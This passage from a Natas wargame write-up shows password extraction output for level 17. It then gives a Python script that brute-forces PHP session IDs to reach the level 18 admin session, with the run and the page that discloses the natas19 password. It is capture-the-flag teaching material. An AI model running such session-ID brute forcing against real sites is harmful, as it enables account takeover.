 ```
Password: xvKIqDjy4OPv7wCRgDlmj0pFsCsD****
Password: xvKIqDjy4OPv7wCRgDlmj0pFsCsDj***
Password: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjh**
Password: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhd*
Password: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP
Completed!
```

### Level 18
We can see from the source code that user gets assigns an ID, we need to brute force and check these ID for the admin credentials. The source code will print `You are an admin. The credentials for the next level are` giving our statement.

```
#!/usr/bin/python

import requests

target = 'http://natas18:xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP@natas18.natas.labs.overthewire.org/'
trueStr = 'You are an admin.'

r = requests.get(target, verify=False)

print 'This might take a while'

for i in range(0, 641):
    cookies = dict(PHPSESSID=str(i))
    r = requests.get(target, cookies=cookies)
    print 'Testing for session =' + str(i)

    if r.content.find(trueStr) != -1:
        print 'Found it! Session =' + str(i)
        print r.content
        break

print 'Completed!'

root@kali:~# python brute.py
This might take a while
Testing for session =0
...
...
Testing for session =138
Found it! Session =138
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas18", "pass": "xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP" };</script></head>
<body>
<h1>natas18</h1>
<div id="content">
You are an admin. The credentials for the next level are:<br><pre>Username: natas19
Password: 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs</pre><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
```
